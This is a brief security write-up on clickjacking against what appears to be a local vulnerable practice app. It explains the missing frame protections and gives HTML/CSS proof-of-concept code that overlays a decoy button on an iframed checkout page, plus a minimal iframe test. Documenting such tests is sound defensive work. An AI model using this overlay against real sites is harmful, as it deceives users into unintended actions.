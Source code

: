 # Clickjacking
This attack tricks users into clicking on a button, link, or other interactable on an attacker controlled/compromised website that performs an unintendded action on an authenticated and/or trusted site.

## Exploitation
**Location** _Entire Application_
Clickjacking is present since the X-Frame-Options / Content-Security-Policy: frame-ancestors directive are both not properly implemented on the application.  For exploitation a more intricately designed website can be made to simulate a realistic attacker website meant to scam users authenticated to vulnerablecandle, the attack can be tested through this example HTML text:

    # HTML
    <button style="z-index: 2; position: absolute; margin-left: 100px; margin-top: 30px;" class="button"> Remove Add</button>
    <div style="overflow: hidden; margin: 15px auto; max-width: 50px;">
        <iframe scrolling="no" src="http://localhost:4200/checkout" style="z-index: 1; position: absolute; border: 0px none; margin-left: -650px; height: 200px; margin-top: -100px; width: 200px;"></iframe>
    </div>

    # CSS
    .button {
    background-color: #4CAF50;
    border: none;
    color: white;
    padding: 32px 32px;
    text-align: center;
    text-decoration: none;
    display: block;
    font-size: 16px;
    margin: 4px 2px;
    cursor: pointer;
    }

For the sake of simplcity the recommended way to test for Clickjacking is simply testing an iframe like below:

    <html>
        <body>
            <iframe src="http://localhost:4200/checkout"></iframe>
        </body>
    </html>
    

